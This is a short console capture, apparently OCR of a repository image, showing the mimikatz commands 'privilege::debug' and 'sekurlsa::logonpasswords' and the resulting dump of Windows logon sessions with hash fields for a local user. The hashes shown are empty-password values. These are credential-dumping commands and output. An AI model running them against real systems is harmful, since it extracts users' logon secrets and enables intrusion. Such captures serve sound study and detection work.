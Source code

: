 mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 63140 (00000000:0000f6a4)
Session           : Interactive from 0
User Name         : Ivan
Domain            : IVANWINXP
Logon Server      : IVANWINXP
Logon Time        : 2/25/2019 8:56:18 PM
SID               : S-1-5-21-1708537768-1425521274-725345543-1003
	msv :	
	 [00000002] Primary
	 * Username : Ivan
	 * Domain   : IVANWINXP
	 * LM       : aad3b435b51404eeaad3b435b51404ee
	 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
	 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
	tspkg :	
	 * Username : Ivan
	 * Domain   : IVANWINXP
	 * Password : (null)
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : Ivan
	 * Domain   : IVANWINXP
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2/25/2019 8:56:16 PM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	
